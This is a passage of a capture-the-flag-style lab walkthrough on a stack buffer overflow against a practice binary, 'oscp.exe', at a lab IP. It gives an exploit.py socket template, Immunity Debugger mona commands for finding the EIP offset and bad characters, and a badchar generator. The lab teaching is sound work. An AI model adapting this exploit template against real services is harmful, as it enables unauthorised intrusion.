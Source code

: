 * The fuzzer script keeps sending these long strings, until it crashes at 2000 bytes.

* We can create ```exploit.py``` now:

```python
import socket

ip = "10.10.157.219"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
#update offset
overflow = "A" * offset
retn = ""
#set to "BBBB"
padding = ""
payload = ""
#insert generated payload in var
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

* Now, we can run the command to generate a string of length 400 bytes more than the string that crashed the server.

* The output should be copied and placed in the payload variable of ```exploit.py```.

* Before running ```exploit.py```, we have to always re-open oscp.exe in Immunity Debugger and run the binary again; then run the exploit script (which crashes the server).

* Run another command in the command input box in Immunity Debugger to change distance to pattern length:

  ```!mona findmsp -distance 2400```

* This generates a log window with command output; it includes the EIP offset in the form of the pattern ```EIP contains normal pattern``` - we need to note the offset at end.

* Now, we need to set offset variable to EIP offset value, set payload variable to empty string, and retn variable to "BBBB".

* After restarting oscp.exe in Immunity Debugger, and then running the ```exploit.py``` script again, we can see that the EIP register (can be viewed in registers section) is overwritten with 42424242 (four B's).

* Now, we need to generate bytearray using mona, and exclude the null byte (\x00) by default - this generates a location of the bytearray file:

  ```!mona bytearray -b "\x00"```

* We can generate a string of badchars identical to bytearray using Python script:

```python
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
  ```